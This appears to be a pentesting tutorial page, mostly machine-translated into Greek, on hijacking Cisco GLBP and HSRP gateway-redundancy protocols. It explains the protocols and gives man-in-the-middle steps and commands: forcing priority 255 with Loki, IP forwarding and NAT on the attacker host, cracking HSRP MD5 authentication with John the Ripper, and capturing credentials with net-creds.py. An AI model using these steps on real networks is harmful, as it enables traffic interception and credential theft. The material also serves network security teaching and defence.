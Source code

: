 # GLBP & HSRP Attacks

{{#include ../../banners/hacktricks-training.md}}


## FHRP Hijacking Overview

### Insights into FHRP

Το FHRP έχει σχεδιαστεί για να παρέχει ανθεκτικότητα στο δίκτυο συνδυάζοντας πολλούς δρομολογητές σε μια ενιαία εικονική μονάδα, ενισχύοντας έτσι την κατανομή φορτίου και την αντοχή σε σφάλματα. Η Cisco Systems εισήγαγε σημαντικά πρωτόκολλα σε αυτή τη σουίτα, όπως το GLBP και το HSRP.

### GLBP Protocol Insights

Η δημιουργία της Cisco, το GLBP, λειτουργεί στο TCP/IP stack, χρησιμοποιώντας UDP στην πόρτα 3222 για επικοινωνία. Οι δρομολογητές σε μια ομάδα GLBP ανταλλάσσουν πακέτα "hello" σε διαστήματα 3 δευτερολέπτων. Εάν ένας δρομολογητής δεν στείλει αυτά τα πακέτα για 10 δευτερόλεπτα, θεωρείται ότι είναι εκτός λειτουργίας. Ωστόσο, αυτοί οι χρονοδιακόπτες δεν είναι σταθεροί και μπορούν να τροποποιηθούν.

### GLBP Operations and Load Distribution

Το GLBP ξεχωρίζει επιτρέποντας την κατανομή φορτίου μεταξύ δρομολογητών χρησιμοποιώντας μια ενιαία εικονική IP σε συνδυασμό με πολλαπλές εικονικές MAC διευθύνσεις. Σε μια ομάδα GLBP, κάθε δρομολογητής συμμετέχει στην προώθηση πακέτων. Σε αντίθεση με το HSRP/VRRP, το GLBP προσφέρει πραγματική εξισορρόπηση φορτίου μέσω αρκετών μηχανισμών:

- **Host-Dependent Load Balancing:** Διατηρεί συνεπή ανάθεση MAC διευθύνσεων AVF σε έναν κόμβο, απαραίτητο για σταθερές ρυθμίσεις NAT.
- **Round-Robin Load Balancing:** Η προεπιλεγμένη προσέγγιση, εναλλάσσοντας την ανάθεση MAC διευθύνσεων AVF μεταξύ των αιτούντων κόμβων.
- **Weighted Round-Robin Load Balancing:** Κατανέμει το φορτίο με βάση προκαθορισμένα μετρικά "Weight".

### Key Components and Terminologies in GLBP

- **AVG (Active Virtual Gateway):** Ο κύριος δρομολογητής, υπεύθυνος για την κατανομή MAC διευθύνσεων στους ομότιμους δρομολογητές.
- **AVF (Active Virtual Forwarder):** Ένας δρομολογητής που έχει οριστεί να διαχειρίζεται την κυκλοφορία του δικτύου.
- **GLBP Priority:** Ένα μετρικό που καθορίζει το AVG, ξεκινώντας από προεπιλεγμένη τιμή 100 και κυμαινόμενο μεταξύ 1 και 255.
- **GLBP Weight:** Αντικατοπτρίζει το τρέχον φορτίο σε έναν δρομολογητή, ρυθμιζόμενο είτε χειροκίνητα είτε μέσω Object Tracking.
- **GLBP Virtual IP Address:** Λειτουργεί ως η προεπιλεγμένη πύλη του δικτύου για όλες τις συνδεδεμένες συσκευές.

Για τις αλληλεπιδράσεις, το GLBP χρησιμοποιεί τη δεσμευμένη διεύθυνση multicast 224.0.0.102 και την πόρτα UDP 3222. Οι δρομολογητές μεταδίδουν πακέτα "hello" σε διαστήματα 3 δευτερολέπτων και θεωρούνται μη λειτουργικοί εάν χαθεί ένα πακέτο για διάρκεια 10 δευτερολέπτων.

### GLBP Attack Mechanism

Ένας επιτιθέμενος μπορεί να γίνει ο κύριος δρομολογητής στέλνοντας ένα πακέτο GLBP με την υψηλότερη τιμή προτεραιότητας (255). Αυτό μπορεί να οδηγήσει σε επιθέσεις DoS ή MITM, επιτρέποντας την παρεμπόδιση ή ανακατεύθυνση της κυκλοφορίας.

### Executing a GLBP Attack with Loki

[Loki](https://github.com/raizo62/loki_on_kali) μπορεί να εκτελέσει μια επίθεση GLBP εισάγοντας ένα πακέτο με προτεραιότητα και βάρος ρυθμισμένα σε 255. Τα βήματα πριν από την επίθεση περιλαμβάνουν τη συλλογή πληροφοριών όπως η εικονική διεύθυνση IP, η παρουσία αυθεντικοποίησης και οι τιμές προτεραιότητας δρομολογητών χρησιμοποιώντας εργαλεία όπως το Wireshark.

Attack Steps:

1. Switch to promiscuous mode and enable IP forwarding.
2. Identify the target router and retrieve its IP.
3. Generate a Gratuitous ARP.
4. Inject a malicious GLBP packet, impersonating the AVG.
5. Assign a secondary IP address to the attacker's network interface, mirroring the GLBP virtual IP.
6. Implement SNAT for complete traffic visibility.
7. Adjust routing to ensure continued internet access through the original AVG router.

By following these steps, the attacker positions themselves as a "man in the middle," capable of intercepting and analyzing network traffic, including unencrypted or sensitive data.

For demonstration, here are the required command snippets:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Η παρακολούθηση και η παρεμβολή της κυκλοφορίας μπορεί να γίνει χρησιμοποιώντας το net-creds.py ή παρόμοια εργαλεία για την καταγραφή και ανάλυση των δεδομένων που ρέουν μέσω του παραβιασμένου δικτύου.

### Παθητική Εξήγηση της Υφαρπαγής HSRP με Λεπτομέρειες Εντολών

#### Επισκόπηση του HSRP (Hot Standby Router/Redundancy Protocol)

Το HSRP είναι ένα ιδιόκτητο πρωτόκολλο της Cisco που έχει σχεδιαστεί για την αναγνωσιμότητα πύλης δικτύου. Επιτρέπει τη διαμόρφωση πολλαπλών φυσικών δρομολογητών σε μια ενιαία λογική μονάδα με μια κοινή διεύθυνση IP. Αυτή η λογική μονάδα διαχειρίζεται από έναν κύριο δρομολογητή που είναι υπεύθυνος για τη διεύθυνση της κυκλοφορίας. Σε αντίθεση με το GLBP, το οποίο χρησιμοποιεί μετρικές όπως προτεραιότητα και βάρος για την κατανομή φορτίου, το HSRP βασίζεται σε έναν μόνο ενεργό δρομολογητή για τη διαχείριση της κυκλοφορίας.

#### Ρόλοι και Ορολογία στο HSRP

- **HSRP Ενεργός Δρομολογητής**: Η συσκευή που λειτουργεί ως πύλη, διαχειριζόμενη τη ροή της κυκλοφορίας.
- **HSRP Δρομολογητής Αναμονής**: Ένας εφεδρικός δρομολογητής, έτοιμος να αναλάβει αν αποτύχει ο ενεργός δρομολογητής.
- **HSRP Ομάδα**: Ένα σύνολο δρομολογητών που συνεργάζονται για να σχηματίσουν έναν ενιαίο ανθεκτικό εικονικό δρομολογητή.
- **HSRP MAC Διεύθυνση**: Μια εικονική MAC διεύθυνση που ανατίθεται στον λογικό δρομολογητή στην εγκατάσταση HSRP.
- **HSRP Εικονική Διεύθυνση IP**: Η εικονική διεύθυνση IP της ομάδας HSRP, που λειτουργεί ως η προεπιλεγμένη πύλη για τις συνδεδεμένες συσκευές.

#### Εκδόσεις HSRP

Το HSRP έρχεται σε δύο εκδόσεις, HSRPv1 και HSRPv2, που διαφέρουν κυρίως στη χωρητικότητα ομάδας, τη χρήση multicast IP και τη δομή της εικονικής MAC διεύθυνσης. Το πρωτόκολλο χρησιμοποιεί συγκεκριμένες multicast IP διευθύνσεις για την ανταλλαγή πληροφοριών υπηρεσίας, με πακέτα Hello που αποστέλλονται κάθε 3 δευτερόλεπτα. Ένας δρομολογητής θεωρείται ανενεργός αν δεν ληφθεί κανένα πακέτο εντός 10 δευτερολέπτων.

#### Μηχανισμός Επίθεσης HSRP

Οι επιθέσεις HSRP περιλαμβάνουν την αναγκαστική ανάληψη του ρόλου του Ενεργού Δρομολογητή με την εισαγωγή μιας μέγιστης τιμής προτεραιότητας. Αυτό μπορεί να οδηγήσει σε επίθεση Man-In-The-Middle (MITM). Ουσιαστικά βήματα πριν από την επίθεση περιλαμβάνουν τη συλλογή δεδομένων σχετικά με την εγκατάσταση HSRP, η οποία μπορεί να γίνει χρησιμοποιώντας το Wireshark για ανάλυση κυκλοφορίας.

#### Βήματα για την Παράκαμψη της Αυθεντικοποίησης HSRP

1. Αποθηκεύστε την κυκλοφορία δικτύου που περιέχει δεδομένα HSRP ως αρχείο .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Εξαγάγετε MD5 hashes από το αρχείο .pcap χρησιμοποιώντας το hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Σπάστε τα MD5 hashes χρησιμοποιώντας το John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Εκτέλεση Εισαγωγής HSRP με Loki**

1. Εκκινήστε το Loki για να εντοπίσετε τις διαφημίσεις HSRP.
2. Ρυθμίστε τη δικτυακή διεπαφή σε λειτουργία promiscuous και ενεργοποιήστε την προώθηση IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Χρησιμοποιήστε το Loki για να στοχεύσετε τον συγκεκριμένο δρομολογητή, εισάγετε τον σπασμένο κωδικό HSRP και εκτελέστε τις απαραίτητες ρυθμίσεις για να προσποιηθείτε τον Ενεργό Δρομολογητή.
4. Αφού αποκτήσετε τον ρόλο του Ενεργού Δρομολογητή, ρυθμίστε τη δικτυακή σας διεπαφή και τους πίνακες IP για να παρεμβάλετε την νόμιμη κυκλοφορία.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Τροποποιήστε τον πίνακα δρομολόγησης για να δρομολογήσετε την κυκλοφορία μέσω του πρώην Ενεργού Δρομολογητή.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Χρησιμοποιήστε το net-creds.py ή ένα παρόμοιο εργαλείο για να καταγράψετε διαπιστευτήρια από την παρεμβαλλόμενη κυκλοφορία.
```shell
sudo python2 net-creds.py -i eth0
```

Η εκτέλεση αυτών των βημάτων τοποθετεί τον επιτιθέμενο σε θέση να παρεμβάλλει και να χειρίζεται την κυκλοφορία, παρόμοια με τη διαδικασία για την υφαρπαγή GLBP. Αυτό αναδεικνύει την ευπάθεια σε πρωτόκολλα αναγνωσιμότητας όπως το HSRP και την ανάγκη για ισχυρά μέτρα ασφαλείας.

## Αναφορές

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


{{#include ../../banners/hacktricks-training.md}}
